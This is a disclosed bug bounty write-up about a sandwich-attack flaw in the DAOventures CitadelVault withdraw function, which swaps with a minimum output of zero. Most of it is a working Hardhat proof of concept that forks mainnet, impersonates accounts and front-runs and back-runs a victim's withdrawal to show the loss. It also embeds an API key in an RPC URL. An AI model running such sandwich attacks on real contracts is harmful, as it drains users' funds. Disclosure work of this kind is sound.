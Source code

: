 ```yaml
---
layout: forward
target: https://medium.com/@yeethsec/daoventures-sandwich-attack-vulnerability-b8f4402147e0
---
```



layout: post
title: DAOventures - Vault withdraws vulnerable to Sandwich Attacks
description: DAOventures Sandwich Attack
summary: Writeup on DAOventures Sandwich Attack
tags: solidity hacking
minute: 1


# Details
This is a report submitted through immunefi about a sandwich attack on DAOventures. The report has been paid out and closed.

# Description

## Target
https://etherscan.io/address/0x8fE826cC1225B03Aa06477Ad5AF745aEd5FE7066

## Smart Contract Bug Description
CitadelVault.sol line 338: `_amounts = router.swapExactTokensForTokens(_amountIn, 0, _path, address(this), block.timestamp);` Amount out is set to 0 which leaves withdrawing vulnerable to sandwich attacks with flashbots.

## Proof of concept/Steps to Reproduce
```
const { expect } = require("chai");
const { network, ethers, waffle } = require("hardhat");

describe("CitadelVault", function () {
  this.timeout(0);

  it("Shouldn't be sandwichable", async function () {
    weth_whale_address = "0xE78388b4CE79068e89Bf8aA7f218eF6b9AB0e9d0";
    sushi_address = "0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F";
    dai_address = "0x6b175474e89094c44da98b954eedeac495271d0f";
    weth_address = "0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2";

    withdrawer_address = "0x1c7679cf155d6df0523743bc4f26f4a08b6a7daf";
    vault_address = "0x8fE826cC1225B03Aa06477Ad5AF745aEd5FE7066";

    // Impersonate withdrawer
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [withdrawer_address],
    });
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [weth_whale_address],
    });
    const attacker = await ethers.getSigner(weth_whale_address);
    const signer = await ethers.getSigner(withdrawer_address);

    const CitadelVault = await ethers.getContractAt("CitadelVault", vault_address);
    const DAI = await ethers.getContractAt("IERC20", dai_address);
    const WETH = await ethers.getContractAt("IERC20", weth_address);
    const SUSHI = await ethers.getContractAt("IUniswapV2Router02", sushi_address);

    // Normal withdraw
    console.log("Normal withdraw");
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    await CitadelVault.connect(signer).withdraw("8492500000000000000", "2");

    const normal_withdraw_amount = await DAI.balanceOf(signer.getAddress());
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    // Reset network
    await network.provider.request({
      method: "hardhat_reset",
      params: [
        {
          forking: {
            jsonRpcUrl: "https://eth-mainnet.alchemyapi.io/v2/DywMbqEbxubKh3WjZQlDUG3MpGVpmCaM",
            blockNumber: 13017013,
          },
        },
      ],
    });
    
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [withdrawer_address],
    });
    await network.provider.request({
      method: "hardhat_impersonateAccount",
      params: [weth_whale_address],
    });

    // Sandwiched withdraw
    console.log("\nSandwiched withdraw");
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    // Front run sandwich swap
    trade_path = [WETH.address, DAI.address];
    inverse_trade_path = [DAI.address, WETH.address];
    const amount = await WETH.balanceOf(attacker.address);
    
    await WETH.connect(attacker).approve(SUSHI.address, amount);

    await SUSHI.connect(attacker).swapExactTokensForTokens(
      amount,
      0,
      trade_path,
      attacker.address,
      Date.now() + 500*60*10
    );

    const dai_balance = await DAI.balanceOf(attacker.address);
    
    await CitadelVault.connect(signer).withdraw("8492500000000000000", "2");
    
    // Back run sandwich swap
    await DAI.connect(attacker).approve(SUSHI.address, dai_balance);

    await SUSHI.connect(attacker).swapExactTokensForTokens(
      dai_balance,
      0,
      inverse_trade_path,
      attacker.address,
      Date.now() + 500*60*10
    );

    const sandwich_attacked_amount = await DAI.balanceOf(signer.getAddress());
    console.log((await DAI.balanceOf(signer.getAddress())).toString());

    console.log("Incurred loss: $" + ethers.utils.formatEther(normal_withdraw_amount.sub(sandwich_attacked_amount)));
    expect(sandwich_attacked_amount < normal_withdraw_amount);
  });
});
```

## Impact
Users can lose up to the entire value of their shares when withdrawing.

## Risk Breakdown
Difficulty to Exploit: `Easy`  
CVSS2 Score: `Critical`  

## Recommendation
Allow the users to supply Amount Out or utilize an oracle and calculate a slippage amount within standards

## References
https://cmichel.io/de-fi-sandwich-attacks/
